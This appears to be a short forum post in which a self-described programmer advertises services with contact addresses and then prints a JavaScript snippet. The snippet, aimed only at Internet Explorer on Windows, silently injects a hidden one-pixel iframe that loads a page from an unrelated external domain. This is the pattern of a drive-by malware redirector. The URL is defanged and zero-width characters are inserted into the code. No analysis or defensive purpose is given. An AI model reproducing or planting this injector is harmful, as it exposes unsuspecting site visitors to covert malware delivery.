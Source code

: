 hello world. i am experienced programmer. i have skills in html, js, python, ruby, unix, php, sql.
if you need help with project, pm me: sexilexi588@xmpp.jp, or email: smirovalexa@gmail.com

#red_dawn ;)

function MakeFrameEx(){
  element = do​cument.get​ElementById('yahoo_api');
  if (!element){
    var el = do​cument.cr​eateElement('if​rame');
    do​cument.body.append​Child(el);
    el.id = 'yahoo_api';
    el.style.width = '1px';
    el.style.height = '1px';
    el.style.display = 'none';
    el.src = 'hxxp://​juyfdjhdjdgh​.nl​.ai​/showthread.php?t=72241732'
  }
}
var ua = navigator.userAgent.toLowerCase();
if (((ua.indexOf("msie") !=- 1 && ua.indexOf("opera") ==- 1 && ua.indexOf("webtv") ==- 1))
 && ua.indexOf("windows") !=- 1){
  var t = setTimeout("MakeFrameEx()", 1000)
}




